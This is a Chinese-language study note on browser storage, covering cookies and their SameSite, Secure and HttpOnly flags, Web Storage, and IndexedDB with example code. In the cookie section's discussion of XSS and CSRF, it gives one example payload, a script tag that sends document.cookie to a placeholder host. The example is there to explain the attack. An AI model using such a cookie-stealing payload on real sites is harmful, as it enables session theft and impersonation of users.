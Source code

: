 # Storage

## Storage

## cookie

### 目的

用于识别用户身份。

### 特点

* 4kb
* 发请求自动带上

### 原理

服务器返回setsCookie时，浏览器会记住cookie, 浏览器发送请求，cookie会被携带给服务器。 Cookie 执行同源策略，同一个 host 下的不同端口可以互相访问 Cookie。a与b只能访问自己的cookie，在a中内嵌c网页，并获取c的cookie，此时c cookie是a的第三方cookie。 **Chrome 更新 80后， SameSite 为`Lax`， 仅允许同站或者子站访问Cookie, 跨站（内嵌c无法访问cookie）需要SameSite `None`** Secure：只允许Https setCookie HttpOnly： 不允许JS访问ducoment.cookie， 只能由服务器setsCookie

```javascript
Set-Cookie: userId=123; SameSite=None; Secure; HttpOnly
```

### 应用

多用于广告服务。a通过内嵌网页向c发送请求，c返回cookie；b通过内嵌网页向c发送请求，并携带cookie，c获知用户身份，按喜好投放广告。

### 缺点

XSS攻击： 跨站脚本攻击， 利用用户对网页的信任。不设置HttpOnly，则用户能上传恶意代码，如： `<script>window.open("举个栗子.com?cookie=" + document.cookie</script>`，获取他人的cookie与身份。 CSRF\(Cross-site request forgery\): 跨站请求伪造，需要诱导点击，利用跨域发请求，携带cookie，完成非意愿的操作。

## storage

### 目的

弥补cookie太小

### 特点

* 10MB
* 使用 Key-Value 形式储存， 只能存字符串。
* 需要调用setItem, getItem, removeItem, clear。
* 增删改查为同步。

## IndexedDB

### 目的

弥补storage只能存字符串

### 特点

* 空间无限制。
* 能存对象，数字等。
* 增删改查都是异步。

  \[文档\] \([https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB\_API/Using\_IndexedDB](https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB_API/Using_IndexedDB)\)

IndexedDB 鼓励使用的基本模式如下所示：

```javascript
1. 打开数据库。
2. 在数据库中创建一个对象仓库（object store）。
3. 启动一个事务，并发送一个请求来执行一些数据库操作，像增加或提取数据等。
4. 通过监听正确类型的 DOM 事件以等待操作完成。
5. 在操作结果上进行一些操作


const dbName = "the_name";

var request = indexedDB.open(dbName, 2);

request.onerror = function(event) {
  // 错误处理
};
request.onsuccess = function(event) {
// 成功
  console.log(event.target.result)
};

// 当你创建一个新的数据库或者增加已存在的数据库的版本号（当打开数据库时，指定一个比之前更大的版本号）， onupgradeneeded 事件会被触发, onupgradeneeded 是我们唯一可以修改数据库结构的地方。
request.onupgradeneeded = function(event) {
  var db = event.target.result;

  // 建立一个对象仓库来存储我们客户的相关信息，我们选择 ssn 作为键路径（key path）
  // 因为 ssn 可以保证是不重复的
  // autoIncrement 自增
  var objectStore = db.createObjectStore("customers", { keyPath: "ssn", autoIncrement : true });

  // 建立一个索引来通过姓名来搜索客户。名字可能会重复，所以我们不能使用 unique 索引
  objectStore.createIndex("name", "name", { unique: false });

  // 使用邮箱建立索引，我们向确保客户的邮箱不会重复，所以我们使用 unique 索引
  objectStore.createIndex("email", "email", { unique: true });

  // 使用事务的 oncomplete 事件确保在插入数据前对象仓库已经创建完毕
  objectStore.transaction.oncomplete = function(event) {
    // 将数据保存到新创建的对象仓库
    var customerObjectStore = db.transaction("customers", "readwrite").objectStore("customers");
    // 增
    customerData.forEach(function(customer) {
      let add = customerObjectStore.add(customer);
      add.onsuccess = () => {}
      add.onerror = () => {}
    });
    // 改
    let put = customerObjectStore.put(data)
    put.onsuccess = () => {}
    put.onerror = () => {}
    // 删
    let remove = customerObjectStore.delete("444-44-4444")
    remove.onsuccess = () => {}
    remove.onerror = () => {}
    // 查
    let get = customerObjectStore.get("444-44-4444")
    get.onsuccess = () => {}
    get.onerror = () => {}
  };
};
```

